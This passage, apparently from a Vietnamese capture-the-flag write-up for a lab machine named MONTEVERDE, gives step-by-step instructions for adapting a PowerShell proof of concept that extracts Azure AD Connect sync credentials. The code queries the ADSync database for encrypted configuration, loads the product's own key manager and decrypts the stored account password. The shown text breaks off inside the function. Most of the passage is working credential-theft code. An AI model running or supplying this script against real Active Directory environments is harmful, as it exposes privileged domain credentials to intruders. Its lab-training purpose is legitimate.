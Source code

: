 Sửa đổi script để đặt các biến `$key_id`, `$instance_id` và `$entropy` thành các giá trị trích xuất từ ​​cơ sở dữ liệu và xóa các command cố gắng tự động lấy chúng. Thêm điều này sau dòng đầu tiên của script.

```
$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Xóa các dòng sau.

```
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM
mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

Tiếp theo sẽ cần sửa đổi biến `$client` hiện có để tham chiếu đến SQL Server tùy chỉnh.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
```

Đóng gói script trong một fuction mà có thể gọi. Lưu payload cuối cùng bên dưới dưới dạng `adconnect.ps1`.

```
Function Get-ADConnectPassword{

Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
```